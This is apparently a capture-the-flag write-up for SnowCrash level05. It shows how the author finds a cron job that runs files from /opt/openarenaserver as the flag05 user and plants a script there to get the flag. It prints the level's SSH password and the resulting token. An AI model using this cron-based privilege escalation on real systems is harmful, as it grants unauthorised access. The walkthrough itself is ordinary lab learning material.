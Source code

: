 
as usual: su level05
Reconnaissance, Enumeration

```
level05@SnowCrash:~$ find / -user flag05 2>/dev/null | xargs file
/usr/sbin/openarenaserver:      POSIX shell script, ASCII text executable
/rofs/usr/sbin/openarenaserver: regular file, no read permission
```

```
level05@SnowCrash:~$ find / -type f 2>/dev/null | xargs grep '/usr/sbin/openarenaserver' 2>/dev/null
Binary file /proc/28098/task/28098/cmdline matches
Binary file /proc/28098/cmdline matches
/var/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
/rofs/var/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

**second method:**


ssh level05@10.12.100.98 -p 4242
level05's password: ne2searoevaevoem4ov4ar8ap
You have new mail.

quick google search: "linux mail path" gives the path of mails dir 

cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

its a crontab apparantley
that runs At every 2nd minute, [check](https://crontab.guru/#*/2_*_*_*_*)

heading back to the path
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

ulimit is a built-in Linux shell command that allows viewing or limiting system resource amounts that individual users consume. Limiting resource usage is valuable in environments with multiple users and system performance issues.

-t flag: Specifies a process's maximum running time, in seconds.

bash -x: The -x option starts a BASH shell in tracing mode.
	run the entire script in debug mode. Traces of each command

googling: `for every file in directory bash` will output similar results

**so the script loops over a directory, executes it then removes it.**

we can exploit that

 
 vim /opt/openarenaserver/exec_this
  getflag > /tmp/flag
 
 watch cat /tmp/flag


token : viuaaale9huek52boumoomioc